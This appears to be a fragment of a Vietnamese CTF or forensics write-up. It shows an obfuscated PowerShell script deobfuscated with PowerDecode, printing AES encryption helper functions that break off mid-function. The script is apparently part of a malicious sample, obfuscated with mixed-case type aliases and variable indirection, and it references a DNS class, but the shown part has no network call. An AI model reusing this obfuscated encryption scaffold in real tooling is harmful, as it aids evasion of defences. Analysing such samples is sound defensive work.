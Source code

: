 Thấy một đoạn mã pwsh bị obfuscat, dùng powerdecode để làm đẹp hơn

![image](images/img11.png)

Kết quả:

```powershell
${8rT3WA}  = [tyPe]'sySTEm.seCUrItY.cryPTOGRaphY.CiphERMOde' ;SV '72j5O'  (  [TYpe]'sYstem.seCuriTY.cRYptoGRapHY.paDDingmOde'  ) ;   ${XNfD}=[tyPe]'System.cONVErT'  ;  ${HLvW1} =  [tYPe]'SYStEM.tEXt.EnCOdiNG';  SeT-iTem 'vARIabLE:92y7'  (  [Type]'SysteM.NEt.dnS')  ; ${UJXRc}=[tyPE]'StrinG' ;function CrEATe-AeSmanAGeDoBJeCt(${vxZTmff}, ${5TMRWpLUy}) {
    
    ${AJuJVRAZ99}           = New-Object 'System.Security.Cryptography.AesManaged'
    ${AJUjvrAZ99}.Mode      =   (  gEt-vARIAblE  ("8rt3Wa") -Value  )::"cBc"
    ${aJujVRAZ99}.PAddInG   =  ( Dir  'vARIable:72j5o'  ).VALUe::"zeRos"
    ${AJUJvrAz99}.BlOckSizE = 128
    ${AjuJvRAz99}.keysIze   = 256
    
    if (${5TMRWPluy}) {
        
        if (${5TmRWpLuy}.getType.iNVOke().nAME -eq 'String') {
            ${ajUjvRaZ99}.Iv =  (dir  'vaRIaBle:xNFd').vAlUe::'FromBase64String'.InVOKe(${5TMRWPlUy})
        }
        
        else {
            ${ajUjVraZ99}.IV = ${5tmRwPLUy}
        }
    }
    
    if (${VxZtMFF}) {
        
        if (${VXzTmfF}.getType.INvoKe().nAME -eq 'String') {
            ${ajUjVraZ99}.Key =  ( LS 'VariAble:XNFD' ).vAluE::'FromBase64String'.invOKe(${vxzTmFF})
        }
        
        else {
            ${AjUJVrAZ99}.key = ${vXzTmff}
        }
    }
    
    ${aJUjvRAZ99}
}
function eNCRYpT(${VxzTMFf}, ${ROFPdqRF99}) {
    
```